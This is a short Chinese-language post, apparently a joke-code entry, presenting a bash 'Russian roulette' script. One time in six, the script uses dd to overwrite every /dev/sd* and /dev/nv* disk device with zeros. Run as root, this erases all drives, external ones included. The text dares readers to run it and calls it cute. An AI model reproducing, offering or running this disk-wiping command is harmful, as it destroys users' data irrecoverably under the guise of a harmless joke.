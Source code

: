 
简评：来啊，干啊！这段代码不是懦夫的能敲的，生死就在一瞬间！
以下是一段可爱的俄罗斯轮盘代码，live or die，it's your turn。
<pre><code>
#!/bin/bash
if [[ $[ $RANDOM % 6 ] == 0 ]]; then
for f in /dev/sd*; do
		dd if=/dev/zero of=$f
done
for f in /dev/nv*; do
		dd if=/dev/zero of=$f
done
else
	echo "Lucky guy"
fi</code></pre>
以 root 的身份，把你的一切分区，你的所有的硬盘、所有的东西包括外接驱动器全部清零！

